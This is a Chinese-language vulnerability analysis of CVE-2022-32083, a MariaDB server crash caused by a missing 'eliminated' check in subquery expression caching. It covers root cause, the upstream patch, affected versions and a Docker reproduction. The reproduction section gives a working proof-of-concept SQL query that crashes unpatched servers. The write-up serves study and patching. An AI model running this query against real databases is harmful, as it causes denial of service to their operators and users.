



# CVE-2022-32083 CWE-None MariaDB DoS

## 漏洞背景

- **MariaDB ：**一款开源关系型数据库管理系统，由 MySQL 的创始人开发，与 MySQL 高度兼容。它具有高性能、高安全性、易于使用等特点，支持多种存储引擎，可保障数据的可靠存储与高效读写。同时，MariaDB 还具备强大的查询优化能力，能增强数据库性能，广泛应用于多种行业领域，为数据存储和管理提供有力支持。
- **dual 表：**在 Oracle 数据库中的一个特殊的虚拟表，包含一行一列，列名为 `DUMMY`，值为 `'X'`。它通常用于执行不依赖于实际数据表的查询，例如计算常量表达式或调用函数。
- **缓存：**如果一个子查询可能会被执行多次，那么第一次执行后就把它的结果存起来（缓存）。下次再需要这个结果时，就不用重新计算子查询了，直接从缓存里读取即可。

## 漏洞原理

MariaDB 在处理复杂子查询时，未正确初始化缓存跟踪器 `init_expr_cache_tracker`，导致内存访问冲突，从而引发段错误。

优化器可能会移除子查询项，但不会及时更新相关的数据结构，MariaDB 在处理已被优化器移除的子查询时，会尝试执行或缓存这些子查询，因此导致内存结构不一致，最终导致段错误。

## 漏洞定位

在 **sql\item_subselect.cc** 文件，第 **1376** 行，`Item_singlerow_subselect::expr_cache_insert_transformer`函数作为一个“转换器”(transformer)，试图将一个需要重复执行的单行子查询 (`Item_singlerow_subselect`) 替换为一个表达式缓存 (`expr_cache`)。

但是这个函数在执行所有逻辑之前，**没有检查**该子查询是否已经被优化器“消除”(`eliminated`)。这是**漏洞点**所在。当一个被标记为`eliminated`的“僵尸”对象进入此函数时，它的`expr_cache`为`nullptr`，所以第一个`if`不会命中。之后继续向下执行，尝试判断是否需要缓存并创建缓存。如果它成功创建了缓存，就会调用`init_expr_cache_tracker()`。但因为这个对象本身是个“僵尸”，它的内部状态（如`unit`指针）是无效的 (`nullptr`)，导致`init_expr_cache_tracker()`内部发生空指针解引用，最终使服务崩溃。

```c
Item* Item_singlerow_subselect::expr_cache_insert_transformer(THD *tmp_thd,
                                                              uchar *unused)
{
  DBUG_ENTER("Item_singlerow_subselect::expr_cache_insert_transformer");
  DBUG_ASSERT(thd == tmp_thd);

    // 检查子查询的缓存是否存在
  if (expr_cache)
    DBUG_RETURN(expr_cache);

    // 判断这个子查询是否有必要进行缓存，并调用 set_expr_cache 来实际创建缓存项
  if (expr_cache_is_needed(tmp_thd) &&
      (expr_cache= set_expr_cache(tmp_thd)))
  {
      // 缓存有必要且缓存创建成功的情况下初始化一些必要的跟踪信息
    init_expr_cache_tracker(tmp_thd);
    DBUG_RETURN(expr_cache);
  }
  DBUG_RETURN(this);
}
```

## 漏洞修复


1. 在 `Item_subselect::exec()` 中新增断言，确保已经被优化器消除的子查询不会继续执行，从而避免访问已经失效的内部结构。

   ```c
   DBUG_ASSERT(!eliminated);
   ```

2. 在 `Item_singlerow_subselect::expr_cache_insert_transformer()` 中新增条件检查。创建缓存前先检查子查询是否已被优化器标记为 `eliminated`；若已消除，则立即返回，不再创建表达式缓存。

   ```c
   if (eliminated)
     DBUG_RETURN(this);
   ```

## 影响范围


**受影响的版本：** MariaDB：

- 10.2.x：低于 10.2.44
- 10.3.x：低于 10.3.35
- 10.4.x：低于 10.4.25
- 10.5.x：低于 10.5.16
- 10.6.x：低于 10.6.8
- 10.7.x：低于 10.7.4

## 环境搭建

Docker 环境中 MariaDB 版本为 10.6.3，管理员为 root，密码为 12345，存在一个数据库 test_db。



## 漏洞复现

1. 进入容器命令行；

   ```bash
   docker exec -it mariadb-10.6.3 bash
   ```

2. 使用 root 用户连接 MariaDB 的 test_db 数据库，密码为 12345；

   ```bash
   mariadb -u root -p test_db
   ```

3. 依次执行下面两行 SQL 命令后，可以看到 MariaDB 崩溃并退出容器；

   ```sql
   CREATE TABLE t1 (a int);
   
   SELECT 1 IN (SELECT NULL FROM t1 WHERE a IS NOT NULL GROUP BY (SELECT NULL from dual WHERE a = 1));
   ```

   

4. 查看容器日志，可以看到 MariaDB 服务进程（`mysqld`）收到了信号 11（SIGSEGV），即段错误（Segmentation Fault），说明程序试图访问未分配或非法的内存地址，导致崩溃。

   ```bash
   docker logs mariadb-10.6.3
   ```

   

## PoC分析

```sql
-- 检查值 1 是否存在于内层查询返回的结果集中
SELECT 1 IN (
    -- 从表 t1 中选择 a 字段非空的记录
  SELECT NULL 
  FROM t1 
  WHERE 
    a IS NOT NULL
    -- 使用 GROUP BY 子句对结果进行分组
  GROUP BY 
    -- 始终返回 NULL，因此所有记录都被视为同一组，指定查询来源于 dual 表
    (SELECT NULL from dual WHERE a = 1)
);
```

其中`GROUP BY (SELECT NULL from dual WHERE a = 1)`没有按 t1 表的某个列进行分组，而是按另一个子查询的结果进行分组。这个子查询还是一个关联子查询 (Correlated Subquery)，因为它的`WHERE a = 1`中的 a 引用了外层 t1 表的列 a。

当 MariaDB 的查询优化器看到这个结构时，它会进行分析，试图简化它。在进行评估时发现这个子查询始终返回 NULL ，会认为这个 `GROUP BY` 子句非常低效且没有必要。之后优化器会判断这个用于分组的子查询是可以被“消除”(eliminate) 的。

优化器虽然将这个子查询标记为 `eliminated`，但并没有将它从整个查询计划的结构中彻底移除。在查询处理的后续阶段，缓存管理模块开始工作。它会遍历查询计划，试图为可以缓存的表达式（如此处的子查询）创建缓存。初始化函数尝试访问该对象的执行计划 (`unit` 指针)，由于对象已被消除，`unit` 指针为 `nullptr`，最终发生错误。

## 参考链接


[NVD - CVE-2022-32083](https://nvd.nist.gov/vuln/detail/CVE-2022-32083)

[[MDEV-26047\] MariaDB server crash at Item_subselect::init_expr_cache_tracker - Jira](https://jira.mariadb.org/browse/MDEV-26047)

[MDEV-26047: MariaDB server crash at Item_subselect::init_expr_cache_t… · MariaDB/server@c01ee95](https://github.com/MariaDB/server/commit/c01ee954bf3b10fef85af7b8c77d319ff7bd6b61#diff-b05e957d4a05bf5d24214bb45f107a4cd053290c21345486785a087da3a02727R1324)
